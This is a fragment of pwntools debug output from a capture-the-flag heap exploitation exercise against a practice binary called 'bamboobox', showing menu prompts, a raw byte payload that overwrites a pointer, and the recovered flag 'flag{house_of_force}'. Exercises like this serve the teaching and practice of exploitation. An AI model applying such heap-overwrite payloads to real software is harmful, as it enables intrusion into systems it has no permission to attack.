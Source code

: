 ```python
    '----------------------------\n'
    '1.show the items in the box\n'
    '2.add a new item\n'
    '3.change the item in the box\n'
    '4.remove the item in the box\n'
    '5.exit\n'
    '----------------------------\n'
    'Your choice:Please enter the length of item name:'
[DEBUG] Sent 0x3 bytes:
    '16\n'
[DEBUG] Received 0x1e bytes:
    'Please enter the name of item:'
[DEBUG] Sent 0x11 bytes:
    00000000  49 0d 40 00  00 00 00 00  49 0d 40 00  00 00 00 00  │I·@·│····│I·@·│····│
    00000010  0a                                                  │·│
    00000011
[DEBUG] Received 0x1d2 bytes:
    '----------------------------\n'
    'Bamboobox Menu\n'
    '----------------------------\n'
    '1.show the items in the box\n'
    '2.add a new item\n'
    '3.change the item in the box\n'
    '4.remove the item in the box\n'
    '5.exit\n'
    '----------------------------\n'
    'Your choice:invaild choice!!!\n'
    '----------------------------\n'
    'Bamboobox Menu\n'
    '----------------------------\n'
    '1.show the items in the box\n'
    '2.add a new item\n'
    '3.change the item in the box\n'
    '4.remove the item in the box\n'
    '5.exit\n'
    '----------------------------\n'
    'Your choice:'
[DEBUG] Sent 0x2 bytes:
    '5\n'
[*] Switching to interactive mode
----------------------------
Bamboobox Menu
----------------------------
1.show the items in the box
2.add a new item
3.change the item in the box
4.remove the item in the box
5.exit
----------------------------
Your choice:invaild choice!!!
----------------------------
Bamboobox Menu
----------------------------
1.show the items in the box
2.add a new item
3.change the item in the box
4.remove the item in the box
5.exit
----------------------------
Your choice:[*] Process './bamboobox' stopped with exit code 0 (pid 29277)
[DEBUG] Received 0x15 bytes:
    'flag{house_of_force}\n'
flag{house_of_force}
```
